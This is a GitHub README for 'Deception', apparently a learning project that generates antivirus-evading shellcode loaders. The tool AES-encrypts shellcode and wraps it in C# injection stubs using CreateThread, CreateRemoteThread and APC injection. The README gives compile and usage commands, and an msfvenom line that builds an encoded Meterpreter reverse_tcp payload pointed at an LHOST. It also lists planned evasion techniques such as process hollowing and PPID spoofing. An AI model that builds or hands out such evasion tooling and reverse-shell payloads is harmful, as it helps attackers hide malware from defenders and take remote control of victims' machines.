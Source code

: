 # Deception
Simple AV Evasion Generator for me to learn evasion techniques

> [!WARNING]
> This project is **depricated**. Please see the new repo [HoodWink](https://github.com/LevitatingLeafy/HoodWink)

### Overview
Current
1. Deception will read in a file containing shellcode
2. Encrypt it with AES 256 using random key & iv and Base 64 encode
3. This is then placed into a generated source file using a given injection method (in help below) and compiled

<details>
<summary>Later versions will incorporate</summary>
Move Project to Visual Studio

More techniques
- Process Injection
- Process Hollow
- Thread Hijack
- ...

Misc
- PPID Spoofing
- BlockDlls
- Module Stomping
- ...

Do above techniques with
- both shellcode and dlls
- kernel32 and ntdll.dll (direct syscalls)
- In other languages (C++, Nim, ...)
</details>

### Usage
```
# Compile
sudo apt install mono-devel
mcs -out:Deception.exe -pkg:dotnet Utils/* Services/* Models/*  Modules/*  Deception.cs
# Run
./Deception.exe
```

#### Help Menu
```
Usage: 
  ./Deception.exe msf.bin -i       # for inline
  ./Deception.exe msf.bin -t       # for inline: CreateThread
  ./Deception.exe msf.bin -r       # for remote: CreateRemoteThread via given PID
  ./Deception.exe msf.bin -s       # for remote: Spawn notepad.exe and Queue APC inject
  ./Deception.exe msf.bin -a       # makes all of the above
Payload Examples: 
   msfbin: msfvenom -p windows/x64/exec -f raw CMD=calc.exe -o msf.bin
   msfbin: msfvenom -p windows/x64/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 LHOST=192.168.0.1 LPORT=8080 -f raw -o msf.bin
```

#### Usage Example
![Usage](./Images/deception.png)

### Extras
<details>
<summary>Structure</summary>

Deception.cs - Main Program

Models/
- Module.cs - Enum for Types, Base Class for Modules, and Default Header + Footer

Modules/
- Inline.cs
- Inline_NewThread.cs
- Remote_CreateRemoteThread.cs
- Spawn_QueueAPC.cs

ModuleSource/ - Source files for each Module (for Testing a technique and then porting to a Module)
- Inline.cs
- Inline_NewThread.cs
- Remote_CreateRemoteThread.cs
- Spawn_QueueAPC.cs

Payloads/
- d71a2331-af9f-4397-bb34-f502c62db7f2.cs  - example generated source file
- d71a2331-af9f-4397-bb34-f502c62db7f2.exe - compiled above file

Services/
- CommandService.cs   - For suggested commands to run payload
- CompilerService.cs  - Compiles generated source
- DeceptionService.cs - Main Service responsible for managing the full deception process
- GeneratorService.cs - Generates a source (encryption calls happen here)
- WriteService.cs

Utils/
- Crypto.cs   - AES and Encoding
- Kernel32.cs - Kernel32 API
</details>
